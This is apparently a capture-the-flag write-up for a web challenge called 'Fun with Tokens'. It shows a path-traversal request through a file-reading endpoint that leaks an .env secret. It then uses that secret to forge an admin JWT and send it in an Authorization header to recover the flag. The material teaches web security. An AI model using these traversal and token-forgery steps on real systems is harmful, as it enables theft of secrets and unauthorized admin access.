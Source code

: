 # Fun with Tokens

Visiting the provided website we see some interesting thing:
There are two links:

http://3.142.122.1:9334/login
http://3.142.122.1:9334/adminNames

And comments in the Source:
```
<!-- /admin is where the fun's at XD -->
<!--The secret you seek is in the environment-->
```

Admin names sounds interesting so let's check that first:
There is actually a redirect to a getFile.php interesting.
Opening http://3.142.122.1:9334/getFile?file=admins in a browser provides us a list with admin names:

```
0xd4127c3c
din_djarin11
```

This already looks a lot like there might be LFI possible. We have the hint that there is some secret in the environment so let's try to pull the .env file using the getFile.php:

http://3.142.122.1:9334/getFile?file=.env
```
No such file or directory: /app/public/.env
```

Okay but maybe in the /app directory?

http://3.142.122.1:9334/getFile?file=../.env

```
secret=G00D_s0ld13rs_k33p_s3cret5
```
Sweet! Unfortunately this is not our flag so we have to search further. Let's have at /admin as the hint said that's where the fun is supposed to be.

http://3.142.122.1:9334/admin
```
{"success":false,"message":"Maybe send the token via Headers ... for Authorization?"}
```

This is some kind of API but we are not authorized. It seems like we need a token, we already have a secret_key which is used to sign tokens so this will propably be our attack vector.
We don't have any cookies/tokens yet so let's check our /login page.

Sending in the form of the /login page responses with a token in the header:

![header_token](https://user-images.githubusercontent.com/73250884/120975811-495cc780-c78f-11eb-8846-a9fcd65a5263.png)

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InF2YV9xd25ldmExMSIsInBhc3N3b3JkIjoiaGFxcnN2YXJxIiwiYWRtaW4iOiJzbnlmciIsImlhdCI6MTYyMzA1MDUyNn0.HcaTRFCnecRpusoNFTupk2ZiH4tCMNwVCrI4tMn2-4Q
```
Let's decrypt it using https://jwt.io

Intiallly it is like this

![jwt.io.png](https://user-images.githubusercontent.com/73250884/120976430-f6cfdb00-c78f-11eb-9fa9-19e503c7b63f.png)

Change the admin to gehr and use the secret code we got.

After changing we get out new token

![jwt_io.png](https://user-images.githubusercontent.com/73250884/120976121-a8bad780-c78f-11eb-919a-b37128069345.png)

Let's send that token to /admin as our authorization header:
![send_token](https://user-images.githubusercontent.com/73250884/120974145-67c1c380-c78d-11eb-9df5-1f233fdf92e2.png)

```
FURYY{G0x3af_q0_z4gg3e_4r91ns4506s384q460s0s0p6r9r5sr4n}
```
Translating this with our subsitutin alphabet or sending it as a username and read that token gives us the flag:
```
SHELL{T0k3ns_d0_m4tt3r_4e91af4506f384d460f0f0c6e9e5fe4a}
```
